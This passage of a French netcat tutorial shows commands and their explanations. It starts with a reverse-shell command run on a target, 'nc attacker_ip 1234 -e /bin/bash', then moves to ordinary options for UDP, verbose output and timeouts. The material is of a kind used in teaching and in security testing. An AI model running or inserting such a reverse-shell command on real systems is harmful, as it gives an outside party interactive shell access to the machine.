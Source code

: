 **Sur la cible (lance le reverse shell) :**

```bash
nc attacker_ip 1234 -e /bin/bash
```

* **Explication** :
  * `attacker_ip` : Adresse IP de l’attaquant.
  * `-e /bin/bash` : Exécute `/bin/bash` pour fournir un shell interactif.

***

### 🔍 Étape 3 : Options Avancées

***

#### 1. Mode UDP

Netcat peut fonctionner en mode UDP au lieu de TCP.

**Écoute sur un port UDP :**

```bash
nc -u -l -p 1234
```

**Se connecter en UDP :**

```bash
nc -u example.com 1234
```

* **Explication** :
  * `-u` : Utilise le protocole UDP.

***

#### 2. Mode Verbose

Affiche des informations supplémentaires pour chaque connexion.

**Commande :**

```bash
nc -v -l -p 1234
```

* **Explication** :
  * `-v` : Active le mode verbose.
  * `-vv` : Mode très verbeux.

***

#### 3. Timeout pour les Connexions

Configurer un délai d’expiration.

**Commande :**

```bash
nc -w 10 example.com 1234
```
